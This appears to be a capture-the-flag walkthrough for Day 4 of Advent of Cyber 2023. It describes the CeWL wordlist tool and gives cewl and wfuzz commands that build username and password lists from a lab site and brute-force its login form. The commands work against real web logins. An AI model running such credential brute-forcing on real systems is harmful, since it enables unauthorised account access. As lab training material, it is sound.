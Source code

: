 # Day 4

![image](https://github.com/W4W1R3/Advent-Of-Cyber-2023-Walkthroughs/assets/57982315/87565812-f06a-4f09-8433-01c6148f9d83)

## CeWL: Custom Wordlist Generator

Many tools rely on pre-defined lists or common dictionary attacks, but CeWL stands out for the following reasons:

      1. **Target-specific wordlists:**
         - CeWL crafts wordlists specifically from the content of a targeted website. The generated list is tailored to the vocabulary and terminology used on that site, increasing the efficiency of brute-forcing tasks.
      
      2. **Depth of search:**
         - CeWL can spider a website to a specified depth, extracting words not just from one page but also from linked pages up to the set depth.
      
      3. **Customizable outputs:**
         - CeWL provides various options to fine-tune the wordlist, such as setting a minimum word length, removing numbers, and including meta tags. This customization is advantageous for targeting specific types of credentials or vulnerabilities.
      
      4. **Built-in features:**
         - While its primary purpose is wordlist generation, CeWL includes functionalities such as username enumeration from author meta tags and email extraction.
      
      5. **Efficiency:**
         - Given its customizability, CeWL can often generate shorter but more relevant word lists than generic ones, making password attacks quicker and more precise.
      
      6. **Integration with other tools:**
         - Being command-line based, CeWL can be seamlessly integrated into automated workflows, and its outputs can be directly fed into other cybersecurity tools.
      
      7. **Actively maintained:**
         - CeWL is actively maintained and updated, staying relevant and compatible with contemporary security needs and challenges.


## Day 4 Task:

### 1. What is the correct username and password combination? Format username: password

With CewlGenerate a list of Usernames with the Command —

   `cewl -d 0 -m 5 -w usernames.txt http://MACHINE-IP/team.php — lowercase`
   
    Again with CewlGenerate a list of Passwords with the Command —

    `cewl -d 2 -m 5 -w passwords.txt http://MACHINE-IP — with-numbers`
   
    Now bruteforce the Credentials using wfuzz with the command —

    `wfuzz -c -z file,usernames.txt -z file,passwords.txt — hs “Please enter the correct credentials” -u http://MACHINE-IP/login.php -d “username=FUZZ&password=FUZ2Z”`

### 2. What is the Flag?

Log in and click on the Email with the Subject “Confidential Message”

